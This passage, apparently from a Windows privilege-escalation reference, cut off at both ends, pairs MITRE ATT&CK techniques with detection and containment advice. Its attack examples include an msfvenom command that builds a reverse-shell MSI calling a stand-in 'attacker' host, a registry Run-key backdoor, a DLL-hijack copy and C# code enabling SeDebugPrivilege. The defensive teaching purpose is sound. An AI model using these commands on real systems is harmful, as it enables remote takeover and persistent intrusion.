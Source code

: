      # Creating malicious MSI (attack)
     msfvenom -p windows/x64/shell_reverse_tcp LHOST=attacker LPORT=4444 -f msi -o malicious.msi
     ```

   - **MITRE ATT&CK**: T1548 (Abuse Elevation Control Mechanism)
   - **Detection Method**: MSI installation monitoring, unusual MSI source locations
   - **Containment Strategy**: Disable AlwaysInstallElevated policy, restrict MSI installations

2. **Registry Run Keys**
   - **Description**: Using registry run keys for persistence with elevated privileges
   - **Common Vectors**: Writable registry locations, autorun entries
   - **Example Commands**:

     ```powershell
     # Adding run key (attack)
     reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v Backdoor /t REG_SZ /d "C:\malicious.exe"
     ```

   - **MITRE ATT&CK**: T1547.001 (Registry Run Keys / Startup Folder)
   - **Detection Method**: Registry modification monitoring, new autorun entries
   - **Containment Strategy**: Restrict registry write access, monitor autorun locations

### Other Windows Techniques

1. **DLL Search Order Hijacking**
   - **Description**: Placing malicious DLLs to be loaded by applications
   - **Common Vectors**: Applications that don't use absolute paths for DLLs
   - **Example Commands**:

     ```powershell
     # Finding potential targets
     Process Monitor -> Filter for "NAME NOT FOUND" + "PATH ENDS WITH .dll"

     # Creating malicious DLL (attack)
     copy malicious.dll C:\Path\To\Application\missing.dll
     ```

   - **MITRE ATT&CK**: T1574.001 (DLL Search Order Hijacking)
   - **Detection Method**: Unexpected DLL loading, unusual file creation in application directories
   - **Containment Strategy**: Use full paths for DLLs, secure application directories

2. **SeDebugPrivilege Abuse**
   - **Description**: Using debug privileges to access other processes' memory
   - **Common Vectors**: Accounts with SeDebugPrivilege enabled
   - **Example Code**:

     ```csharp
     // Enabling debug privilege (attack)
     public static void EnableDebugPrivilege()
     {
         IntPtr hToken;
         OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, out hToken);
         LUID luid;
         LookupPrivilegeValue(null, "SeDebugPrivilege", out luid);
         TOKEN_PRIVILEGES tp = new TOKEN_PRIVILEGES();
         tp.PrivilegeCount = 1;
         tp.Privileges = new LUID_AND_ATTRIBUTES[1];
         tp.Privileges[0].Luid = luid;
         tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
         AdjustTokenPrivileges(hToken, false, ref tp, 0, IntPtr.Zero, IntPtr.Zero);